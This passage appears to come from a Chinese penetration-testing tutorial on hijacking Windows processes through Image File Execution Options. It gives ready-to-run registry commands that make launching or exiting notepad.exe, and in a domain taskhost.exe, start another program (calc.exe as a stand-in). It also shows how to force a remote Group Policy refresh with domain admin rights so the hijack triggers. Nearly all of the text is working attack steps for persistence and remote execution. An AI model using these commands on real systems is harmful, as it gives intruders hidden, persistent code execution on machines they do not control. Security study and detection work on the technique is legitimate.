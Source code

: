 如果能够修改远程计算机的注册表设置，那么可以选择使用映像劫持，劫持进程的启动或者进程的结束

### 1、工作组环境

以劫持`notepad.exe`为例，实际启动的进程为`calc.exe`

劫持进程的启动：

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v debugger /t REG_SZ /d "c:\windows\system32\calc.exe"
```

劫持进程的结束：

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /t REG_SZ /d "c:\windows\system32\calc.exe"
```

**注：**

该方法学习自https://oddvar.moe/2018/04/10/persistence-using-globalflags-in-image-file-execution-options-hidden-from-autoruns-exe/


### 2、域环境

域环境相比于工作组环境，存在一个可稳定的利用进程：taskhost.exe

默认情况下，域环境下的计算机组策略每90分钟更新，随机偏移为0-30分钟，域控制器的组策略每5分钟更新，组策略更新时会启动进程taskhost.exe

也可以强制刷新组策略：

#### (1)已有域管理员权限，刷新指定计算机的组策略

```
Invoke-GPUpdate -Computer "TEST\COMPUTER01"
```

#### (2)刷新当前计算机的组策略，可用于测试环境下该方法的验证

```
gpupdate /force
```

**注：**

详细的利用测试可参考之前的文章[《域渗透——利用GPO中的计划任务实现远程执行》](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%88%A9%E7%94%A8GPO%E4%B8%AD%E7%9A%84%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1%E5%AE%9E%E7%8E%B0%E8%BF%9C%E7%A8%8B%E6%89%A7%E8%A1%8C/)

劫持taskhost.exe进程的启动：

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\taskhost.exe" /v debugger /t REG_SZ /d "c:\windows\system32\calc.exe"
```
